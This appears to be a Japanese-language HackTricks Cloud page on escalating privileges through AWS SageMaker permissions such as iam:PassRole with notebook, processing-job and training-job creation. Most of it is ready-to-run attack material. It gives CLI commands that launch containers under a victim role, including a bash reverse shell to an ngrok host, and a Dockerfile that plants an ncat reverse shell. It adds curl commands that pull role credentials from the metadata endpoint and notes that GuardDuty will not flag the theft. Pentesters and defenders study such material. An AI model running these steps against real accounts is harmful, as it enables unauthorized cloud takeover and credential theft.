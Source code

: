 # AWS - Sagemaker特権昇格

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで広告表示したい**場合や、**PEASSの最新バージョンやHackTricksのPDFをダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

この攻撃プロセスの最初のステップは、**SageMakerがそれを仮定することを信頼するロールを特定する**ことです（sagemaker.amazonaws.com）。それが完了したら、次のコマンドを実行して、そのロールがアタッチされた新しいノートブックを作成できます：
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```
成功した場合、AWSからの応答で新しいノートブックインスタンスの**ARN**を受け取ります。それは**数分**かかることがありますが、一度完了すると、次のコマンドを実行して、**ウェブブラウザを通じてノートブックインスタンスにアクセスするための署名付きURL**を取得できます。他のアクセス方法もありますが、これは単一の許可と単一のAPI呼び出しであるため、シンプルに見えます。
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
もしインスタンスが完全に起動している場合、このAPI呼び出しは私たちがブラウザでアクセスするための**署名付きURLを返します**。ブラウザのJupyterページに移動したら、右上の「Open JupyterLab」をクリックします。以下のスクリーンショットで確認できます。

![](<../../../.gitbook/assets/image (15) (1).png>)

次のページでは、「ランチャー」タブの一番下までスクロールします。「その他」セクションの下にある「Terminal」ボタンをクリックします。以下で確認できます。

![](<../../../.gitbook/assets/image (27).png>)

ターミナルからはいくつかのオプションがありますが、そのうちの1つは**AWS CLIを使用する**ことです。もう1つのオプションは、IAMロールの資格情報を直接EC2メタデータサービスに問い合わせて抽出することです。

「抽出する」という言葉を読んだときにはGuardDutyが思い浮かぶかもしれませんが、ここでは実際にはGuardDutyを心配する必要はありません。関連するGuardDutyの検出は「UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration」であり、EC2インスタンスからロールの資格情報が盗まれ、他の場所で使用された場合にアラートが発生します。幸運なことに、このEC2インスタンスは実際には私たちのアカウントに存在せず、代わりに**AWSが所有するアカウントにホストされている管理されたEC2インスタンス**です。つまり、これらの資格情報を抽出しても、対象のGuardDuty検出器をトリガーする心配はありません。

**潜在的な影響:** 指定されたSagemakerサービスロールへの特権昇格。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

前の例と同様に、もしJupyterノートブックが既に実行されていて、それらをsagemaker:ListNotebookInstancesでリストアップできる場合（または他の方法でそれらを発見できる場合）、**URLを生成し、アクセスし、前のテクニックで示されたように資格情報を盗むことができます**。
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
**潜在的な影響:** Sagemakerサービスロールへの特権昇格。

### `sagemaker:CreateProcessingJob,iam:PassRole`

これらの権限を持つ攻撃者は、SagemakerがSagemakerロールがアタッチされたプロセッシングジョブを実行することができます。攻撃者は、実行されるコンテナの定義を示し、AWSの管理されたECSアカウントインスタンスで実行されます。そして、アタッチされたIAMロールの資格情報を盗むことができます。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在的な影響:** 指定されたSagemakerサービスロールへの特権昇格。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、トレーニングジョブを作成し、それに**ロールをアタッチ**して**任意のコンテナを実行**することができます。したがって、攻撃者はロールの資格情報を盗むことができます。

{% hint style="warning" %}
このシナリオは前のものよりも難しいため、rev shellまたは資格情報を直接攻撃者に送信するDockerイメージを生成する必要があります（トレーニングジョブの設定で開始コマンドを指定することはできません）。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在的な影響:** 指定されたSagemakerサービスロールへの特権昇格。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、（潜在的に）**ハイパーパラメータのトレーニングジョブ**を作成し、それに**アタッチされたロール**で**任意のコンテナを実行**することができる可能性があります。\
_時間の不足のため、まだ攻撃を行っていませんが、前の攻撃と似ているようです。攻撃の詳細をPRで送信しても構いません。_

<details>

<summary><strong>ハックトリックスをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
